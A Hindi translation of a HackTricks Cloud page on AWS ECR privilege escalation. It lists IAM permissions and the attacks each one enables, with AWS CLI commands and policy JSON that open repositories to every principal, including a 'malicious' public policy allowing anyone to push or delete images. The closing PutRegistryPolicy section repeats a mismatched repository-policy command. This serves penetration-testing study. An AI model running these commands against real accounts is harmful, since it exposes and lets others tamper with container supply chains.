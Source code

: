 # AWS - ECR Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

**`ecr:GetAuthorizationToken`** और **`ecr:BatchGetImage`** अनुमतियों वाला हमलावर ECR में लॉगिन कर सकता है और इमेजेस डाउनलोड कर सकता है।

इमेजेस को डाउनलोड करने की अधिक जानकारी के लिए:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**संभावित प्रभाव:** ट्रैफिक में संवेदनशील जानकारी को इंटरसेप्ट करके अप्रत्यक्ष प्रिवेस्क।

### `ecr:GetAuthorizationToken`,`ecr:BatchCheckLayerAvailability`,`ecr:CompleteLayerUpload`,`ecr:InitiateLayerUpload`,`ecr:PutImage`,`ecr:UploadLayerPart`

इन सभी अनुमतियों वाला हमलावर **ECR में लॉगिन कर सकता है और इमेजेस अपलोड कर सकता है**। यह अन्य वातावरणों में विशेषाधिकार बढ़ाने के लिए उपयोगी हो सकता है जहां उन इमेजेस का उपयोग किया जा रहा है।

नई इमेज अपलोड करने/अपडेट करने का तरीका जानने के लिए, देखें:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

पिछले खंड की तरह, लेकिन सार्वजनिक रिपॉजिटरीज के लिए।

### `ecr:SetRepositoryPolicy`

इस अनुमति वाला हमलावर **रिपॉजिटरी पॉलिसी** में **परिवर्तन** कर सकता है ताकि वह खुद को (या सभी को) **पढ़ने/लिखने की पहुंच** प्रदान कर सके।\
उदाहरण के लिए, इस उदाहरण में सभी को पढ़ने की पहुंच दी गई है।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
सामग्री `my-policy.json` की:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

पिछले अनुभाग की तरह, लेकिन सार्वजनिक रिपॉजिटरीज के लिए।\
एक हमलावर **रिपॉजिटरी पॉलिसी में संशोधन कर सकता है** ECR Public रिपॉजिटरी की, ताकि अनधिकृत सार्वजनिक पहुँच प्रदान की जा सके या उनके विशेषाधिकारों को बढ़ाया जा सके।
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**संभावित प्रभाव**: ECR पब्लिक रिपॉजिटरी की अनधिकृत सार्वजनिक पहुँच, जिससे कोई भी उपयोगकर्ता इमेजेस को पुश, पुल, या डिलीट कर सकता है।

### `ecr:PutRegistryPolicy`

इस अनुमति के साथ एक हमलावर **परिवर्तन** कर सकता है **रजिस्ट्री पॉलिसी** में, ताकि वह स्वयं, उसका खाता (या यहाँ तक कि हर कोई) **पढ़ने/लिखने की पहुँच** प्राप्त कर सके।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
